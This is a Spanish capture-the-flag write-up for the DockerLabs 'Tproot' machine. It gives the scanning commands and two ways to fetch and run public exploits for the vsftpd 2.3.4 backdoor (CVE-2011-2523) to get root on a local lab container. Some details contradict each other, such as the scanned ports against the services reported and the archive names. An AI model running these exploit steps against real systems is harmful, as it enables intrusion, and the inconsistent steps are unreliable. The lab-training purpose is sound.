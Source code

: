 # 🖥️ **Máquina: Tproot**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Laboratorio diseñado para reforzar habilidades básicas de explotación de servicios mal configurados, enfocado principalmente en **FTP** vulnerable y escalada de privilegios mediante configuración insegura de **sudo**.

- **🎯 Objetivo:**  
  - Explotar la vulnerabilidad en vsftpd 2.3.4 para obtener acceso como root.  
  - Comprender y aplicar diferentes métodos de explotación.  
  - Consolidar buenas prácticas de enumeración y explotación básica.

![Máquina Backend](/Tproot/Imagenes/Plantilla.png)

---

## 🚀 **Despliegue de la Máquina Tproot en DockerLabs**

### 1️⃣ Descargar y descomprimir el archivo

Utilizamos `7z` para extraer el contenido del archivo `.zip`:

```bash
7z e backend.zip
```

### 2️⃣ Ejecutar el despliegue automático

Desplegamos la máquina ejecutando:

```bash
sudo bash auto_deploy.sh tproot.tar
```

📌 **Nota:** Verifica que tengas Docker y 7z correctamente instalados en tu sistema.

### 3️⃣ Comprobar la conexión

Confirmamos que la máquina esté activa mediante un `ping`:

```bash
ping -c4 172.17.0.2
```

![PING](/Tproot/Imagenes/Ping.jpeg)

---

## 🧩 **Fase de Reconocimiento**

Realizamos un escaneo de puertos para identificar servicios activos:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Reconocimiento](/Tproot/Imagenes/Escaneo.jpeg)

Posteriormente, enfocamos el escaneo en los puertos detectados:

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

![Reconocimiento](/Tproot/Imagenes/Servicios.jpeg)

**Servicios detectados:**
- **Puerto 80 (HTTP):** Página web activa.
- **Puerto 21 (FTP):** Servicio FTP.

---

## 🌐 **Acceso a la Página Web**

Editamos el archivo `/etc/hosts` para facilitar el acceso:

```bash
sudo nano /etc/hosts
```

Añadimos:

```plaintext
172.17.0.2
```

Accedemos desde el navegador a `http://172.17.0.2`.

![Pagina](/Tproot/Imagenes/Pagina.jpeg)

Recopilamos información del sitio usando **WhatWeb**:

```bash
whatweb 172.17.0.2
```

---

## 📂 **Explotación del Servicio FTP**

La máquina ejecuta **vsftpd 2.3.4**, vulnerable a una puerta trasera remota.

### Opción 1️⃣ - Clonando un exploit desde GitHub

Buscamos un exploit funcional:

```bash
git clone https://github.com/nobodyatall648/CVE-2011-2523
```

![Reconocimiento](/Tproot/Imagenes/VulGit.jpeg)

Entramos al directorio y ejecutamos el script:

```bash
cd CVE-2011-2523
python3 vsftpd_2.3.4_exploit.py 172.17.0.2
```

![Reconocimiento](/Tproot/Imagenes/GitEje.jpeg)

Así obtenemos un acceso directo como **root**.

---

### Opción 2️⃣ - Usando SearchSploit

Utilizamos **SearchSploit** para encontrar la vulnerabilidad:

```bash
searchsploit vsftpd 2.3.4
```

![FTP_descargas](/Tproot/Imagenes/Herramienta.jpeg)

Descargamos el exploit:

```bash
searchsploit -m unix/remote/49757.py
```

![FTP_descargas](/Tproot/Imagenes/DescargaPy.jpeg)

Ejecutamos el script:

```bash
python3 49757.py 172.17.0.2
```

![FTP_descargas](/Tproot/Imagenes/VulHerr.jpeg)

Con esto también obtenemos acceso como **root**.

---

## 📊 Comparativa de Métodos de Explotación

| Herramienta        | Descripción | Ventajas | Desventajas |
|:-------------------|:------------|:---------|:------------|
| **GitHub (Clonar Exploit)** | Se clona un repositorio donde el exploit ya está probado y documentado. | Rápido, ejemplos funcionales, mejor explicado. | Puede depender de actualizaciones o estar mal mantenido. |
| **SearchSploit (Descargar Exploit)** | Utiliza una base de datos local de exploits para encontrar vulnerabilidades conocidas. | No requiere conexión tras la descarga, acceso organizado. | Puede necesitar ajustes manuales, menor documentación. |

---

## ✅ **Resumen del proceso:**

- Identificamos que el servicio FTP utiliza **vsftpd 2.3.4**, vulnerable a **CVE-2011-2523**.
- Explotamos la vulnerabilidad mediante dos métodos distintos: uno clonando un exploit de GitHub, y otro descargándolo con **SearchSploit**.
- Obtuvimos acceso **root** sin requerir técnicas de escalada de privilegios adicionales.
- Consolidamos conocimientos en escaneo, reconocimiento, explotación básica y herramientas de explotación.
